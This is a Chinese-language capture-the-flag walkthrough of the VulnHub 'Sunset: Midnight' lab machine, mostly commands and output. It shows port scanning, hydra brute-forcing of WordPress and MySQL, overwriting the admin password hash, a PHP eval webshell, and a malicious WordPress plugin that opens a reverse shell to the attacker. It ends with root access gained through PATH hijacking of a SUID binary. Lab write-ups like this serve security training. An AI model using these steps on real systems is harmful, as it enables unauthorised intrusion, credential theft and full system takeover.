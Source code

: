 # SUNSET MIDNIGHT

> https://download.vulnhub.com/sunset/midnight.7z

靶场IP：`192.168.2.4 `

扫描对外端口

```
┌──(root㉿kali)-[~/Desktop]
└─# nmap -p1-65535 -sV 192.168.2.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 07:13 EDT
Nmap scan report for 192.168.2.4
Host is up (0.000080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
MAC Address: 08:00:27:05:08:38 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.24 seconds

```

浏览器访问80端口，发现配置本地hosts

![image-20220904191517941](../../.gitbook/assets/image-20220904191517941.png)

```
┌──(root㉿kali)-[~/Desktop]
└─# cat /etc/hosts
192.168.2.4 sunset-midnight
```

![image-20220904191627991](../../.gitbook/assets/image-20220904191627991.png)

对wordpress进行暴力破解，发现无法爆破。

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt sunset-midnight -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
```

于是爆破MySQL端口，找到账号密码：`root/robert`

```
┌──(root㉿kali)-[/tmp]
└─# hydra -l root -P /usr/share/wordlists/rockyou.txt sunset-midnight mysql
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 08:43:20
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://sunset-midnight:3306/
[3306][mysql] host: sunset-midnight   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-04 08:43:21

```

![image-20220904204449398](../../.gitbook/assets/image-20220904204449398.png)

查询wordpress的后台登录密码

![image-20220904204533158](../../.gitbook/assets/image-20220904204533158.png)

不过无法破解到密码，于是直接更改密码的哈希的密码为`password`。

```
MariaDB [wordpress_db]> update wp_users set user_pass="5f4dcc3b5aa765d61d8327deb882cf99" WHERE ID=1;
Query OK, 1 row affected (0.003 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

登录wordpress后台

![image-20220904204812696](../../.gitbook/assets/image-20220904204812696.png)

在插件添加一句话木马

```
<?php @eval($_GET["cmd"]); ?>
```

![image-20220904204946646](../../.gitbook/assets/image-20220904204946646.png)

但是无法保存成功。

![image-20220904205104164](../../.gitbook/assets/image-20220904205104164.png)

使用WordPress 木马插件

> https://github.com/wetw0rk/malicious-wordpress-plugin.git

```
┌──(root㉿kali)-[/opt/malicious-wordpress-plugin]
└─# python wordpwn.py 192.168.2.5 8888 Y
[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating payload To file

```

![QQ录屏20220904205517](../../.gitbook/assets/QQ录屏20220904205517.gif)

访问：`http://sunset-midnight/wp-content/plugins/malicious/wetw0rk_maybe.php`，即可连接反弹shell

> 或者`/wp-content/plugins/malicious/QwertyRocks.php`

![image-20220904205914558](../../.gitbook/assets/image-20220904205914558.png)

查看`wp-config.php`

```
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'jose' );

/** MySQL database password */
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```

切换到`jose`用户

![image-20220904210456110](../../.gitbook/assets/image-20220904210456110.png)

查找suid

```
jose@midnight:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/su
/usr/bin/sudo
/usr/bin/status
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

```

提权

```
jose@midnight:~$ /usr/bin/status
/usr/bin/status
sh: 1: service: not found
jose@midnight:~$ cd /tmp
cd /tmp
jose@midnight:/tmp$ nano service
nano service
Error opening terminal: unknown.
jose@midnight:/tmp$ 

jose@midnight:/tmp$ echo '/bin/sh' >> service
echo '/bin/sh' >> service
jose@midnight:/tmp$ export PATH=$PATH:/tmp
export PATH=$PATH:/tmp
jose@midnight:/tmp$ /usr/bin/status
/usr/bin/status
sh: 1: service: Permission denied
Status of the SSH server:jose@midnight:/tmp$ 

jose@midnight:/tmp$ chmod +x service
chmod +x service
jose@midnight:/tmp$ /usr/bin/status
/usr/bin/status
# id
id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)

```

查看flag

![image-20230208160628254](../../.gitbook/assets/image-20230208160628254.png)
